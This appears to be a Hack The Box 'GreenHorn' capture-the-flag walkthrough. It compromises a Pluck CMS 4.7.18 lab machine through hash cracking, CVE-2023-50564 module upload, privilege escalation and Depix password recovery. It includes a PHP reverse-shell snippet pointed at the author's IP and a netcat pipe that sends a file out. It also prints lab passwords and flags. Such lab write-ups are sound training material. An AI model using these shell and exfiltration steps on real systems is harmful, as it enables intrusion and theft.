 # HTB GreenHorn

Add the DNS into HOSTS

```bash
echo -e '10.129.191.235\t\tgreenhorn.htb'
```

## Admin console page

![admin page](image.png)

## nmap scan for ports 

```bash
(base) nathan@ubuntu-desktop:~/Documents/git/ctf_journey$ sudo nmap -sS 10.10.11.25
[sudo] password for nathan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 03:34 CET
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

We can see that we have a ppp server running on 3000.

Opening up the web page we can see that there is self hosting git service with the git project.

## User Password

![alt text](image-1.png)

User hash password.

`d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163`

![alt text](image-2.png)

We can see that its a sha512 hash. We can try and bruteforce the password.

Simply by trying to use a cracker online I've found the password.
![alt text](image-3.png)

## Admin login

We can finally login into the pluck admin page.
Logged in with the password.
![alt text](image-4.png)

Now we can see the pluck version that they are using. 4.7.18.

## CVE CVE-2023-50564

First search found a CVE on Pluck being able to do remote Code Excecution. This is good since this will help us invoke a reverse shell.

![alt text](image-5.png)

Found more info here [github](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC).
CVE-2023-50564 is a vulnerability that allows unauthorized file uploads in Pluck CMS version 4.7.18. This exploit leverages a flaw in the module installation function to upload a ZIP file containing a PHP shell, thereby enabling remote command execution.

I took the php script in the git and simply added my own IP addr. I had for the VPN.

Snippet : 

```php
        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.14.132', 8888);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>

```

Created a ZIP and uploaded to the server VIA import modules.

```bash

(base) nathan@ubuntu-desktop:~/Downloads/GreenHorn/rev/CVE-2023-50564_Pluck-v4.7.18_PoC$ nc -lnvp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.11.25 38794
SOCKET: Shell has connected! PID: 7198
```


## User flag



```bash
whoami 
www-data
ls
README.md
SECURITY.md
admin.php
data
docs
files
images
index.php
install.php
login.php
requirements.php
robots.txt
tree
ls /home/
git
junior
ls /home/junior/
Using OpenVAS.pdf
user.txt
ls -la /home/junior/user.txt
-rw-r----- 1 root junior 33 Nov  2 00:45 /home/junior/user.txt
```

Connect as junior

```bash
su junior
Password: iloveyou1
whoami
junior
```

User flag : 
```bash
cat /home/junior/user.txt
667ba77652cff26d8a402206bf756e8d
```

## Root flag

Saw a pdf file earlier in the logs so lets self transfer it.

Our listening server :
```bash
(base) nathan@ubuntu-desktop:~$ nc -lnvp 8889 > Using_OpenVAS.pdf
Listening on 0.0.0.0 8889
Connection received on 10.10.11.25 50624
```

The file transfer with cat :
```bash
cd /home/junior
ls
user.txt
Using OpenVAS.pdf
cat Using\ OpenVAS.pdf | nc 10.10.14.132 8889
```
We see a pixelated password.
![alt text](image-6.png)

Extract image from pdf : 

```bash
pdfimages Using_OpenVAS.pdf out_pdf.ppm
```

![alt text](image-7.png)

Using [Depix repo](https://github.com/spipm/Depix/tree/main) to depix linear pixelation : 

```bash
python3 depix.py     -p out_pdf.ppm-000.ppm     -s images/searchimages/debruinseq_notepad_Windows10_spaced.png
```

Here is the output image

![output](output.png)

We can read this password : 

`sidefromsidetheothersidesidefromsidetheotherside`

su root :

```bash
su root
Password: sidefromsidetheothersidesidefromsidetheotherside
whoami
root
```

Root flag : 

```bash
cd /root
ls
cleanup.sh
restart.sh
root.txt
cat root.txt
eb889c6c6dba0888fdc40b9e327bbbca
```